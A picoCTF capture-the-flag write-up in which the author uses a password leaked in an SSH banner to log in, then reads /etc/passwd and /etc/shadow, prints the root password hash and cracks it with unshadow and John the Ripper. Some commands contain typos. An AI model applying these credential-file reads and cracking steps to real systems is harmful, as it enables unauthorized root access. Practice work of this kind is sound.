 ## Challege reads as follow 

Can you abuse the banner?
The server has been leaking some crucial information on 
tethys.picoctf.net 57019. Use the leaked information to get to the server.

To connect to the running application use 
nc tethys.picoctf.net 61514. From the above information abuse the machine and find the flag in the /root directory.

## let's connect with first server and obtain the leaking information 

upon connecting with leaking server, we got the following credentials:

## nc ethys.picoctf.net 57019

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234 

now connect with another server using the password , provided by leaking server : 

muneer1631-picoctf@webshell:~$ nc tethys.picoctf.net 54357
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234

What is the top cyber security conference in the world?
DEF CON

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper

player@challenge:~$ 

## Now we're in .............. 

## From here , I solved it in two ways. First as the questions suggests  the flag is in root folder. 
let's check the permission of flag.txt 

**__________________________________________________________________________________
player@challenge:/root$ ls -la 
ls -la 
total 16
drwxr-xr-x 1 root root    6 Mar  9 16:39 .
drwxr-xr-x 1 root root   29 Apr 17 10:17 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar  9 16:39 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py
player@challenge:/root$  
____________________________________________________________________________________**

As we can see, it you need root Privileges to read the file . 
As I described above , I solved it in two ways. 

1. Crack the password of root  and enter as root to read the contents of the file 
2. use the Hint provided and following along the way to solve it. 

## Firstly am going to crack the password of root (First way)

read users ( cat /etc/passwd)  and copy the root username and save it into a text file. 
**______________________________________________________________________________
player@challenge:/root$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
_______________________________________________________________________________**

Similary read the hash of passwords stored in /ect/shadow
player@challenge:~$ cat /etc/shadow
cat /etc/shadow
root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
___________________________________________________________________________________________________________________________

Use "unshadow" tool which merges password and shadow files into one, typically for cracking passwords. As 
you saved the username of root and hash of password, Take help of "unshadow" commnad to merge both files.

unshadow name.txt password.txt > passwords.txt

Now , you've merged file named as passwords. 

## Did you hear about John ?
NO, "John the Ripper is a powerful password cracking tool often used for security testing and analysis."

Provide the path where John (Already Installed in Kali Linux) and the password file 
**_____________________________________________________________________________________________
┌──(user㉿kali)-[~/Desktop]
└─$ john /usr/sbin/ password 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
*iloveyou         (root)*   
1g 0:00:00:01 DONE 2/3 (2024-04-16 21:07) 0.6211g/s 598.7p/s 598.7c/s 598.7C/s 123456..john
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
__________________________________________________________________________________________**

Oh , you did it buddy. "iloveyou" is the password of root. Switch to root and read the contents of the file. 

## let's go for another way (second approach to solve it)

I will continue it latter ................

